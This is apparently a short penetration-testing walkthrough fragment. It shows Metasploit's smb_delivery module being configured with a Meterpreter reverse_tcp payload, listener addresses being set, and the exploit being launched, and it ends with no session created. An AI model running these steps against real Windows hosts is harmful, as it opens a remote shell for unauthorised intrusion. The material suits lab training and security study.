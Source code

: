 <img width="1244" height="686" alt="image" src="https://github.com/user-attachments/assets/257e370a-6731-4542-b9ad-ad889f110788" />

Start Metasploit: 

```
sudo msfconsole -q
use exploit/windows/smb/smb_delivery
```

```
[msf](Jobs:0 Agents:0) exploit(windows/smb/smb_delivery) >> show options

Module options (exploit/windows/smb/smb_delivery):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CAINPWFILE                    no        Name of file to store Cain&Abel has
                                           hes in. Only supports NTLMv1 hashes
                                           . Can be a path.
   FILE_NAME    test.dll         no        DLL file name
   FOLDER_NAME                   no        Folder name to share (Default: none
                                           )
   JOHNPWFILE                    no        Name of file to store JohnTheRipper
                                            hashes in. Supports NTLMv1 and NTL
                                           Mv2 hashes, each of which is stored
                                            in separate files. Can also be a p
                                           ath.
   SHARE                         no        Share (Default: random); cannot con
                                           tain spaces or slashes
   SRVHOST      0.0.0.0          yes       The local host or network interface
                                            to listen on. This must be an addr
                                           ess on the local machine or 0.0.0.0
                                            to listen on all addresses.
   SRVPORT      445              yes       The local port to listen on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     0.0.0.0     yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   DLL



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(windows/smb/smb_delivery) >> set LHOST 10.10.15.140
LHOST => 10.10.15.140
[msf](Jobs:0 Agents:0) exploit(windows/smb/smb_delivery) >> set SRVHOST 10.10.15.140
SRVHOST => 10.10.15.140
[msf](Jobs:0 Agents:0) exploit(windows/smb/smb_delivery) >> exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

```